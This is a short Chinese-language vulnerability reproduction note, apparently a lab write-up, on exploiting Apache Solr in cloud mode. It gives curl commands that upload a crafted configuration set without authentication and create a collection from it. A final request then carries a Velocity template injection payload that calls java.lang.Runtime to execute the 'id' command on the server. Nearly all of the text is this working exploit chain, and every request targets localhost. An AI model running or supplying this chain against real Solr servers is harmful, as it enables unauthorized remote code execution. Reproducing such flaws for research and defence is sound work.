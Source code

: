 需要solr以cloud模式启动，特征是：
![1](C:\Users\litbaizhang\Desktop\20201222\Apache\Apache Solr\Apache Solr未授权上传漏洞\1.png)

会有一个cloud的功能 。

编译一个恶意配置：

![2](C:\Users\litbaizhang\Desktop\20201222\Apache\Apache Solr\Apache Solr未授权上传漏洞\2.png)

在对应目录下依次执行以下shell命令。

/solr-7.7.0/server/solr/configsets/sample_techproducts_configs/conf

zip -r - * > mytest.zip

curl -X POST --header "Content-Type:application/octet-stream" --data-binary @mytest.zip "http://127.0.0.1:8983/solr/admin/configs?action=UPLOAD&name=mytest"  #注册一个配置文件集合为mytest

curl "http://127.0.0.1:8983/api/cluster/configs?omitHeader=true"  #查询配置文件集合是否上传成功

curl "http://127.0.0.1:8983/solr/admin/configs?action=CREATE&name=mytest2&baseConfigSet=mytest&configSetProp.immutable=false&wt=xml&omitHeader=true"

curl "http://127.0.0.1:8983/solr/admin/collections?action=CREATE&name=mytest&numShards=1&replicationFactor=1&wt=xml&collection.configName=mytest2" #使用之前上传的配置文件集合为mytest

![3](C:\Users\litbaizhang\Desktop\20201222\Apache\Apache Solr\Apache Solr未授权上传漏洞\3.png)

curl -v "http://127.0.0.1:8983/solr/mytest/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x='')+%23set($rt=$x.class.forName('java.lang.Runtime'))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"

最后执行命令：

![4](C:\Users\litbaizhang\Desktop\20201222\Apache\Apache Solr\Apache Solr未授权上传漏洞\4.png)

